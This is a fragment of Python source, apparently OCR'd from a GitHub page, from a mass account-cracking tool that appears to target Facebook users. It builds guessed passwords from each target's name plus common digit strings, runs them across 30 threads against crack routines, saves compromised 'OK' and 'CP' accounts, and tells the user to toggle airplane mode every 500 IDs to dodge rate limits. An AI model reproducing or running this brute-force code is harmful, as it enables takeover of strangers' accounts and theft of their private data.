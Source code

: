 	ler = '# ﺭﺎﻈﺘﻧﻷﺍ ﺀﺎﺟﺮﻟﺍ ﻕﺍﺮﺘﺧﻻﺍ ﺔﻴﻠﻤﻋ ﺕﺀﺍﺪﺑ, PRESS CTRL+Z TO STOP'

	sol().print(mark(ler, style='green'))

	krek = '[•] OK RESULTS SAVED IN : INTERNAL MEMORY/4MBF-DATA/OK/%s\n[•] CP RESULTS SAVED IN : INTERNAL MEMORY/4MBF-DATA/CP/%s\nON OF AIRPLANE MODE EVERY 500 ID'%(okc,cpc)

	cetak(nel(krek, title=' • CRACK • '))

	with tred(max_workers=30) as pool:

		for yuzong in id2:

			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()

			frs = nmf.split(' ')[0]

			pwv = ['1122334455','1234554321','112233445566','123456654321']

			if len(nmf)<6:

				if len(frs)<3:

					pass

				else:

					pwv.append(frs+'123')

					pwv.append(frs+'123456')

					pwv.append(frs+'12345')

			else:

				if len(frs)<3:

					pwv.append(nmf)

				else:

					pwv.append(nmf)

					pwv.append(frs+'123')

					pwv.append(frs+'123456')

					pwv.append(frs+'12345')

			if 'ya' in pwpluss:

				for xpwd in pwnya:

					pwv.append(xpwd)

			else:pass

			if 'mobile' in method:

				pool.submit(crack,idf,pwv)

			elif 'free' in method:

				pool.submit(crackfree,idf,pwv)
